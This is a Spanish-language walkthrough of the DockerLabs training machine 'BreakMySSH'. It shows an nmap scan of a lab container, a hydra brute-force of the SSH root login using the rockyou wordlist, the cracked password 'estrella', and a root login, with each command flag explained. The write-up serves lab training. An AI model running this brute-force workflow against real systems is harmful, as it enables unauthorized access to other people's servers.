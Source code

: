 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterisiticas muestran.

```
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputsacn.txt
```
"-sC" Muestra la version del servicio del pureto abierto.
<br>
"-sV" Ejecuta scripts propios de nmap que entre otras cosas descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección ip de la máquina víctima
<br>
"-oN" Sirve para que te copie el rsultado del escaneo en el fichero que tu le indiques (no hay que crearlo antes, lo crea solo).

```                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 11:09 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds

```
Observamos el puerto 22, que es del servicio ssh, abierto. Al ser esta una maquina victima muy sencilla, en el siguiente paso podemos permitirnos ya intentar ser "root", lo haremos de la siguiente forma.
<br><br><br>
Hacemos un ataque de fuerza bruta al servicio ssh con la herramienta hydra, donde pondremos la wordlist "rockyou.txt" que incluye aproximadamente un millon de contraseñas comunes.
```sh
└─$ hydra -l root -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l root" Indica que nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-14 11:46:06
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 55.00 tries/min, 55 tries in 00:01h, 14344344 to do in 4346:47h, 5 active
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
Vemos que para el usuario "root" ha encontrado la contraseña "estrella", probamos a hacer una conexion con ssh e introducimos la contraseña "estrella"
```
└─$ ssh root@172.17.0.2 
```
```
root@e1c6130e3b9a:~# whoami
root
```
<br>

<div style="text-align: center;">
Somos root, estamos dentro. Gracias.
</div>                                                   
